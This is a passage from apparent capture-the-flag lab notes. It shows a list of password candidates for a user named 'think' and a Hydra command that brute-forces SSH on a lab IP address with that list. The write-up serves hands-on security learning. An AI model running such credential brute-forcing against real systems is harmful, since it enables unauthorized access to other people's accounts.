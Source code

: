 ```
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171

```

And we have a password list file for 'think' .
# SSH (22)

## Hydra

Let's do some [Bruteforcing](../../3%20-%20Tags/Hacking%20Concepts/Bruteforcing.md) to find the right password :

```
hydra -l think -P passwords  10.10.116.56 ssh -vvv 
```

![Pasted image 20250719174923.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719174923.png)
